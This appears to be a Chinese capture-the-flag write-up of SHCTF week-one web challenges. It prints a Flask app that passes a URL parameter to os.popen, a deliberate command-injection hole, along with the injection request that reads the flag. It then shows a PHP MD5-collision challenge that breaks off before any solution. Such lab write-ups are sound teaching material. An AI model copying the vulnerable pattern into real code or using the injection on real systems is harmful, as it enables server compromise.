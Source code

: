 # Web

## SHCTF 

### **[week1]ez_flask**

查看robots.txt，看到提示

```
User-agent: *
Disallow: /s3recttt
```

访问/s3recttt，得到源代码

```python
import os
import flask
from flask import Flask, request, send_from_directory, send_file

app = Flask(name)

@app.route('/api')
def api():
    cmd = request.args.get('SSHCTFF', 'ls /')
    result = os.popen(cmd).read()
    return result
    
@app.route('/robots.txt')
def static_from_root():
    return send_from_directory(app.static_folder,'robots.txt')
    
@app.route('/s3recttt')
def get_source():
    file_path = "app.py"
    return send_file(file_path, as_attachment=True)

if name == 'main':
    app.run(debug=True)
```

直接注入即可 

```
/api?SSHCTFF=cat /flag
```



### **[Week1] MD5 Master**

```php
<?php
highlight_file(__file__);

$master = "MD5 master!";

if(isset($_POST["master1"]) && isset($_POST["master2"])){
    if($master.$_POST["master1"] !== $master.$_POST["master2"] && md5($master.$_POST["master1"]) === md5($master.$_POST["master2"])){
        echo $master . "<br>";
        echo file_get_contents('/flag');
    }
}
else{
    die("master? <br>");
```